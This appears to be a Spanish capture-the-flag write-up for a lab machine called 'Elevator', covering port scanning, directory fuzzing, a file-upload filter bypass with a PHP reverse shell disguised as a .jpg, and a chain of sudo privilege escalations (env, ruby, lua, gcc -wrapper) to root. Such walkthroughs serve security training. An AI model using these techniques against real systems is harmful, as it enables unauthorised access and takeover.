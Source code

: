 
# Elevator
![image](https://github.com/user-attachments/assets/94e48dad-afd1-4617-9218-7f59701415d5)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a visitar la web a ver si encontramos algo que nos pueda ayudar pero no hay nada relevante así que hacemos fuzzing para encontrar nuevas rutas.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php
```
![image](https://github.com/user-attachments/assets/bd15383a-3374-4318-b93d-c976cb398283)

Como no encontramos nada, seguimos buscando en directorios en este caso vamos al directorio **http://172.17.0.2/themes/**

![image](https://github.com/user-attachments/assets/0f497aa0-9c13-4687-a06d-44425ca59927)


## Explotación.

Encontramos una ruta **http://172.17.0.2/themes/archivo.html**, y encontramos una página para subir archivos. Nos indica que únicamente se pueden subir archivos *jpg*.

![image](https://github.com/user-attachments/assets/ce863652-ac2a-44dd-be7f-0c0b560d18ee)

Para saltarnos esa comprobación podemos subir una shell en php que tenga como extensión jpg. Es decir, sería *shell.php.jpg* Para ello vamos a [GitHub](https://github.com/pentestmonkey/php-reverse-shell) y utilizamos su reverse shell en php.

![image](https://github.com/user-attachments/assets/83c89a3b-94f7-4f55-92be-e6435c594ea0)

![image](https://github.com/user-attachments/assets/e93f87e5-9673-431f-9025-cc0d0ec15b12)

Nos ponemos en escucha en el puerto que hayamos configurado, en mi caso el 4444 y vamos a la ruta que nos muestra.

![image](https://github.com/user-attachments/assets/69e9ddc2-8b9c-42dc-b3c1-9b8dfd706ead)

## Escaladad de privilegios.

Ahora comprobamos los permisos sudo que tenemos y vemos que podemos ejecutar como **daphne** */usr/bin/evn*

![image](https://github.com/user-attachments/assets/1719d5ac-1ced-4f05-a376-08cfbeb15164)

```bash
sudo -u daphne /usr/bin/env /bin/sh
```
![image](https://github.com/user-attachments/assets/c6d6a982-e070-48df-b936-9e4bf483951d)

![image](https://github.com/user-attachments/assets/5313f360-4a38-4787-805b-fdc328e45ac9)

```bash
sudo -u vilma /usr/bin/ash
```
![image](https://github.com/user-attachments/assets/595b5be4-d24b-447c-9cc5-f51cca2e2665)

```bash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
```
![image](https://github.com/user-attachments/assets/1dee18d8-7bc6-4699-8b61-8f53a11179be)

```bash
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/07f5fb76-616f-49c3-83f0-9be336555625)

```bash
sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s .
```
![image](https://github.com/user-attachments/assets/9f81a2e6-401e-4e9c-9732-cfcc1fd0bdfe)

```bash
sudo -u root /usr/bin/sudo /bin/sh
```

![image](https://github.com/user-attachments/assets/afcb909f-242b-42e7-a958-92d505d5c7b8)

Ya tenemos acceso como **root**.













